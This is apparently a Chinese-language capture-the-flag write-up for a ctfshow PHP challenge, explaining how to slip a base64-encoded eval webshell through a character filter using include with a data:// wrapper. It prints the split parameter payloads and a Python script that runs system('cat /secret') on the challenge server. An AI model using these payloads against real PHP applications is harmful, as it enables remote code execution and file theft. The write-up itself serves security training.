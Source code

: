 ```php
        return false;
    }

    if(preg_match("/!|@|#|\\$|\%|\^|\&|\(|_|=|{|'|<|>|\?|\?|\||`|~|\[/", $num1.$num2.$symbol)){
        return false;
    }

    if(preg_match("/^[\+\-\*\/]$/", $symbol)){
        $code = "$num1$symbol$num2";
        return true;
    }

    return false;
}


```

没有括号的命令执行，php当中不需要括号的函数有`include,require,echo`等，这样的函数叫做语言结构。

所以思路就是利用include+伪协议读取文件。由于题目过滤了尖括号，所以可以选择进行一个base64编码绕过。

我们要执行的命令是：

```php=
include "data://text/plain,@<?php eval($_GET[1]);?>"
base64编码一下
include "data://text/plain;base64,PD9waHAgQGV2YWwoJF9HRVRbMV0pOz8+"
```

注意到最终eval执行的是三个参数连接在一起的，而且中间的参数必须是加减乘除，所以应该这样传参：

```php=
num1=include "data:/&symbol=/&num2=text/plain;base64,PD9waHAgQGV2YWwoJF9HRVRbMV0pOz8+";
```

这里有一个我不理解的地方，直接在网页用hackbar传参会失败，似乎num1参数的data:后面不能跟斜杠，后面用python脚本就可以了。

官方的优雅写法：

```php
num1=include "data:ctfshow&symbol=/&num2=b;base64,PD9waHAgZXZhbCgkX0dFVFsxXSk7Pz4";
```



```python
import requests



url = "http://64439753-14b6-4464-87c9-329b13190685.challenge.ctf.show/"
def getFlag():
        data={
                "num1":'include "data:/',
                "symbol":"/",
                "num2":'text/plain;base64,PD9waHAgQGV2YWwoJF9HRVRbMV0pOz8+";'
        }

        response = requests.post(url=url+"?1=system('cat /secret');die();",data=data)
        print(response.text)

if __name__ == '__main__':
        getFlag()

```
